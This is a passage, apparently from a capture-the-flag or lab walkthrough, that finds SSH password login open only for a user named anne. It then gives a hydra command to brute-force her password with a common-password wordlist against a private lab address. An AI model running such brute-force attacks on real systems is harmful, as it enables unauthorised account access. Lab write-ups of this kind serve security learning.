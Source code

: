 
We already know that john & mai require a public key to access through ssh, so let’s try with the rest:


![alt_text](../images/image63.png "image_tooltip")


OK so we can only access with the user anne. Let’s brute force her with:

```shell
hydra -l anne -P /usr/share/wordlists/10k-most-common.txt 10.0.2.9 -V ssh
```
